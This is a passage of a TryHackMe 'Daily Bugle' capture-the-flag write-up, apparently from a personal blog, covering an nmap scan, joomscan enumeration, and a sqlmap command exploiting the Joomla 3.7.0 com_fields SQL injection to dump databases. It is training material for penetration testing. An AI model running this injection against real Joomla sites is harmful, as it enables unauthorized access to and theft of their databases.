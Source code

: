 ```yaml
---
title: Daily Bugle Writeup
published: false
---
```

# TryHackMe - Daily Bugle  
___________________________
![](assets/images/dailybugle/dailybugle_joomlalogin.png)
<br>
<br>

This continues my offensive security path on [TryHackMe](https://tryhackme.com/room/dailybugle). This room involves some sqli, cracking hashes, and priv esc with yum. As always I'll start with my standard `nmap` scan of the box.
<br>
<br>

## nmap scan

```
nmap -sC -sV -oN nmap/daily_initialnmap.txt 10.10.203.11
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 12:05 EDT
Nmap scan report for 10.10.203.11
Host is up (0.20s latency).
Not shown: 995 closed ports
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open     http          Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
1119/tcp filtered bnetgame
1152/tcp filtered winpoplanmess
3306/tcp open     mysql         MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.75 seconds
```
<br>
<br>

It looks like we have port 22 and port 80 open. There's a website with disallowed entries on `robots.txt` and looks to be running Joomla CMS.
<br>
<br>

## web enumeration

The page is pretty basic for the most part. Looks like one post about spider-man robbing a bank. There's a login form to the side that gives us an interesting url to test for sqli. Testing out the robots.txt disallowed entries leads me to a Joomla login page. It turns out that in the repos for kali there is a tool for enumerating Joomla called `joomscan`. We can download the tool with `sudo apt install joomscan`. Once installed we can run it on the box with `joomscan -u http://10.10.60.90/`. It returns all kinds of valuable info such as firewalls, version info, and robots.txt disallowed entries (although we already knew those from the nmap scan). Turns out we're dealing with `Joomla 3.7.0` which has a known exploit on [exploit-db](https://www.exploit-db.com/exploits/42033). While this is not a manual exploit, it gives us valuable info on how to run sqlmap to get a database dump. It contains the following command:
<br>
<br>

`sqlmap -u "http://<machine-ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs`
<br>
<br>

Now, this command gives us a dump of the databases, but once it returns we'll need to run it again with a more specific `-D` to specify one of the databases to dump. A tool like `SQLmap`, while great is not allowed on the OSCP, so I may go back and try it with a manual exploit (assuming there is one), but for now I need some more practice with `SQLmap` so I'm not too concerned about it at this point.

